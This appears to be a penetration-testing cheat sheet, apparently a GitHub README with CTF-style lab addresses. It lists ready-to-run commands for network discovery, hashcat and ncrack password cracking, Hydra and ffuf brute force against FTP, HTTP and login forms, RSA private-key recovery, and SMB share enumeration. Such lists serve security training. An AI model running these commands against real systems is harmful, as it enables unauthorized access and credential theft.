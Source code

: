 [Automate Tool](https://github.com/solcoteh/NmapScan_Automate)

## Network_Scan_Enumeration ✅
```bash
sudo nmap -sn 10.10.10.0/24 -T5
sudo rustscan -a 10.10.10.0/24
sudo netdiscover -f -r 10.10.10.0/24 -i eth0 -P
```

# Brute Force Attack ✅📚
## Crack Type Cheat Sheet ✅
```bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
hashcat -m <hash_type> -a <attack_mode> hashfile wordlist

gpp-decrypt [hash] # Group Policy Preferences (GPP)
ncrack -vv --user username -P password-file.txt rdp://[host] # Ncrack can be used to crack RDP passwords:
```
[example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

## Hydra Attack Type Cheat Sheet ✅
```bash
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
```
## Crack-ssh-Pubkey-To-Privatekey ✅
```bash
git clone https://github.com/RsaCtfTool/RsaCtfTool.git

pip install -r requirements.txt

RsaCtfTool.py --publickey ./key.pub --private
```
### Web_Method Brute Force ✅
```bash
nikto -h http://10.10.131.147:1234/manager/html -id bob:<password> (get-method)
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f $ip -s 80 http-get /protected/ -I
hydra -t 4 -l bob -P /usr/share/wordlists/rockyou.txt -f $ip -s 80 http-post-form "/<dir>:username=^USER^&password=^PASS^:<Faild Error>" -vV -I

ffuf -u http://10.10.10.10/sqli-labs/Less-11/ -c -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded'
```

# service ✅📚
## SMB ✅
#### Default ports 445,139
```bash
enum4linux -a $ip
enum4linux-ng -As $ip
smbclient -L //$ip/ -p 445|139
smbget -R smb://$ip/<share>
smbclient //$ip><share dir> 
smbclient //$ip/<share dir> -p 445|139
smbclient //$ip/<share dir> -U Anonymous -p 445|139
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.138.133
```